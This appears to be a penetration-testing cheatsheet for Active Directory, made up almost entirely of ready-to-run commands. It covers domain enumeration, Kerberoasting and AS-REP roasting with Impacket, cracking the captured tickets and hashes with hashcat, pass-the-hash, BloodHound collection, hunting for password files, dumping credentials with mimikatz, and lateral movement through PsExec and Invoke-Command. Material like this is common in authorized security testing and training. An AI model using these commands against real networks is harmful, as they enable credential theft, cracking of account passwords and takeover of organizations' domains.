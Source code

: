 # 🏢 Active Directory (AD) Cheatsheet
*"If it's Kerberoastable, it's probably crackable."*

---

## 🧭 Basic AD Enumeration

### 🧑‍💼 Who Are You?
```bash
whoami
whoami /groups
hostname
ipconfig /all
```

### 🔍 Environment Checks
```bash
set               # Show all environment variables
net config workstation
net config server
```

---

## 🗃️ User, Group, Domain Info

### 📇 User Enumeration
```bash
net user /domain
net group "Domain Admins" /domain
net localgroup
net user <username> /domain
```

### 🏢 Domain Details
```bash
nltest /dclist:<domain>          # List domain controllers
nltest /domain_trusts            # List trust relationships
```

---

## 🛠️ Tools for Enumeration

### 🧰 Using `ldapsearch` (Linux)
```bash
ldapsearch -x -H ldap://<DC_IP> -b "dc=example,dc=com"
```

### 🧰 Using `rpcclient` (Linux)
```bash
rpcclient -U "" <IP>
> enumdomusers
> enumdomgroups
```

### 🧰 Using `crackmapexec`
```bash
cme smb <IP> -u user -p pass --shares
cme smb <IP> -u user -p pass --users
cme smb <IP> -u user -p pass --local-groups
```

---

## 🔓 Kerberoasting

### 🧪 Get Kerberoastable Users (With Impacket)
```bash
GetUserSPNs.py example.com/user:pass -dc-ip <DC_IP> -outputfile hashes.txt
```

### 🔥 Crack Tickets with Hashcat
```bash
hashcat -m 13100 hashes.txt rockyou.txt
```

---

## 📦 AS-REP Roasting

### 🌐 Find Vulnerable Users
```bash
GetNPUsers.py -usersfile users.txt -no-pass example.com/ -dc-ip <DC_IP>
```

### 🔓 Crack AS-REP Hash
```bash
hashcat -m 18200 hash.txt rockyou.txt
```

---

## 🎫 Pass-the-Hash

### 🪪 With `pth-winexe`
```bash
pth-winexe -U 'DOMAIN/user%HASH' //target cmd.exe
```

---

## 🩸 BloodHound (With SharpHound)

### 🦈 Collect AD Data
```powershell
SharpHound.exe -c all
```

### 📊 Analyze with BloodHound GUI (on your host)

---

## 🔑 Credential Hunting

### 🔍 Search for Passwords
```powershell
Get-ChildItem -Path C:\ -Include *pass*,*cred* -Recurse -ErrorAction SilentlyContinue
```

### 🔑 Dump Credentials (If Admin)
```powershell
mimikatz
privilege::debug
logonpasswords
```

---

## 🛡️ Lateral Movement

### 🖥️ Remote Execution
```powershell
Invoke-Command -ComputerName <hostname> -ScriptBlock { whoami }
```

### 💥 PsExec (Admin Shell)
```bash
psexec.exe \\TARGET cmd.exe
```

---

## 📌 Tips

- Look for:
  - Users with `Do not require Kerberos preauthentication` → AS-REP roast
  - SPNs (Service Principal Names) → Kerberoasting
  - Weak permissions on GPOs and scripts

- Tools: [Impacket](https://github.com/SecureAuthCorp/impacket), [BloodHound](https://github.com/BloodHoundAD/BloodHound), [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)

---

> 🧠 "Active Directory is the castle. The misconfigs are the open gates."

